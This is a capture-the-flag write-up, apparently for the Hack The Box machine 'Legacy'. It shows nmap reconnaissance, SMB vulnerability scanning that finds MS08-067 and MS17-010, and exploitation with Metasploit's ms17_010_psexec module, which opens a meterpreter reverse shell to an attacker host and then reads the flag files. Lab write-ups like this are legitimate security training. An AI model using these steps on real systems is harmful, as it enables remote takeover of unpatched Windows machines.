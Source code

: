 ## ---------->> Legacy <<-----------

-----

// We will start with nmap scan

    $ nmap -sV -A -Pn 10.10.10.4 -p-
----

    Nmap scan report for 10.10.10.4
    Host is up (0.15s latency).
    Not shown: 65532 filtered ports
    PORT     STATE  SERVICE       VERSION
    139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
    445/tcp  open   microsoft-ds  Windows XP microsoft-ds
    3389/tcp closed ms-wbt-server
    Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

    Host script results:
    |_clock-skew: mean: 5d00h27m39s, deviation: 2h07m16s, median: 4d22h57m39s
    |_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:27:62 (VMware)
    | smb-os-discovery: 
    |   OS: Windows XP (Windows 2000 LAN Manager)
    |   OS CPE: cpe:/o:microsoft:windows_xp::-
    |   Computer name: legacy
    |   NetBIOS computer name: LEGACY\x00
    |   Workgroup: HTB\x00
    |_  System time: 2021-07-10T19:21:23+03:00
    | smb-security-mode: 
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    |_smb2-time: Protocol negotiation failed (SMB2)



// cannot coonect smb withouth autentication
// so we search nmap for smb vulnurabillities

    $ ls /usr/share/nmap/scripts/ | grep smb | grep vuln
----

    smb-vuln-conficker.nse
    smb-vuln-cve-2017-7494.nse
    smb-vuln-cve2009-3103.nse
    smb-vuln-ms06-025.nse
    smb-vuln-ms07-029.nse
    smb-vuln-ms08-067.nse
    smb-vuln-ms10-054.nse
    smb-vuln-ms10-061.nse
    smb-vuln-ms17-010.nse
    smb-vuln-regsvc-dos.nse
    smb-vuln-webexec.nse
    smb2-vuln-uptime.nse

// Lets run all nmap smb scripts on the host

    $ nmap --script smb-vuln* -Pn -p 445 -A 10.10.10.4
----

    Nmap scan report for 10.10.10.4
    Host is up (0.13s latency).

    PORT    STATE SERVICE      VERSION
    445/tcp open  microsoft-ds Microsoft Windows XP microsoft-ds
    Service Info: OS: Windows XP; CPE: cpe:/o:microsoft:windows_xp

    Host script results:
    | smb-vuln-ms08-067: 
    |   VULNERABLE:
    |   Microsoft Windows system vulnerable to remote code execution (MS08-067)
    |     State: VULNERABLE
    |     IDs:  CVE:CVE-2008-4250
    |           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
    |           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
    |           code via a crafted RPC request that triggers the overflow during path canonicalization.
    |           
    |     Disclosure date: 2008-10-23
    |     References:
    |       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
    |_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
    |_smb-vuln-ms10-054: false
    |_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
    | smb-vuln-ms17-010: 
    |   VULNERABLE:
    |   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
    |     State: VULNERABLE
    |     IDs:  CVE:CVE-2017-0143
    |     Risk factor: HIGH
    |       A critical remote code execution vulnerability exists in Microsoft SMBv1
    |        servers (ms17-010).
    |           
    |     Disclosure date: 2017-03-14
    |     References:
    |       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
    |       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
    |_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
    
    

// We can see that its vulnerable to (MS08-067) and (ms17-010)

### ---Exploitation---

// Little search in exploit-db we can see that (ms17-010) avalible in MetaSploit

    $ msfconsole
----

    msf6 > use exploit/windows/smb/ms17_010_psexec
    [*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
    msf6 exploit(windows/smb/ms17_010_psexec) > set rhosts 10.10.10.4
    rhosts => 10.10.10.4
    msf6 exploit(windows/smb/ms17_010_psexec) > set lhost 10.10.17.8
    lhost => 10.10.17.8
    msf6 exploit(windows/smb/ms17_010_psexec) > set lport 1444
    lport => 1444
    msf6 exploit(windows/smb/ms17_010_psexec) > exploit


![Image 1](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Legacy/1.png)


// We got NT/SYSTEM !

    meterpreter > sysinfo
    Computer        : LEGACY
    OS              : Windows XP (5.1 Build 2600, Service Pack 3).
    Architecture    : x86
    System Language : en_US
    Domain          : HTB
    Logged On Users : 1
    Meterpreter     : x86/windows

----

// We got the root and user flags!

    C:\Documents and Settings\john\Desktop>type user.txt
    type user.txt
    e69af0e.......................

    C:\Documents and Settings\Administrator\Desktop>type root.txt
    type root.txt
    993442d2.....................


